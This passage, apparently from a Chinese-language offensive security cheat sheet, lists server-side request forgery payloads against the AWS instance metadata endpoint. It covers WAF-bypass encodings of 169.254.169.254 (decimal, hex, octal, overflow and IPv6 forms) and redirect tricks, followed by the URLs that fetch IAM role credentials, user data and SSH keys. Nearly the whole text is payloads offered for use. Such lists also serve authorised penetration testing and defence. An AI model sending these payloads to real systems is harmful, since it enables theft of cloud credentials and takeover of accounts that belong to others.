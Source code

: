 * IPv6端点：`http://[fd00:ec2::254]/latest/meta-data/`

如果存在WAF，您可能需要尝试不同的方法连接到API。

* 指向AWS API IP的DNS记录

  ```powershell
  http://instance-data
  http://169.254.169.254
  http://169.254.169.254.nip.io/
  ```

* HTTP 重定向
  ```powershell
  静态:http://nicob.net/redir6a
  动态:http://nicob.net/redir-http-169.254.169.254:80-
  ```

* 编码IP以绕过WAF
  ```powershell
  http://425.510.425.510 使用溢出点的十进制点分表示法
  http://2852039166 无点十进制表示法
  http://7147006462 带溢出的无点十进制表示法
  http://0xA9.0xFE.0xA9.0xFE 点分十六进制表示法
  http://0xA9FEA9FE 无点十六进制表示法
  http://0x41414141A9FEA9FE 带溢出的无点十六进制表示法
  http://0251.0376.0251.0376 点分八进制表示法
  http://0251.00376.000251.0000376 带填充的点分八进制表示法
  http://0251.254.169.254 混合编码（点分八进制+点分十进制）
  http://[::ffff:a9fe:a9fe] 压缩的IPv6格式
  http://[0:0:0:0:0:ffff:a9fe:a9fe] 扩展的IPv6格式
  http://[0:0:0:0:0:ffff:169.254.169.254] IPv6/IPv4格式
  http://[fd00:ec2::254] IPv6格式
  ```

这些URL返回与实例关联的IAM角色列表。然后，您可以将角色名称附加到此URL以检索该角色的安全凭据。

```powershell
http://169.254.169.254/latest/meta-data/iam/security-credentials
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]

# 示例
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
```

此URL用于访问在启动实例时指定的用户数据。用户数据通常用于将启动脚本或其他配置信息传递到实例中。

```powershell
http://169.254.169.254/latest/user-data
```

查询其他URL以访问有关实例的各种元数据，如主机名、公共IPv4地址和其他属性。

```powershell
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/dynamic/instance-identity/document
```
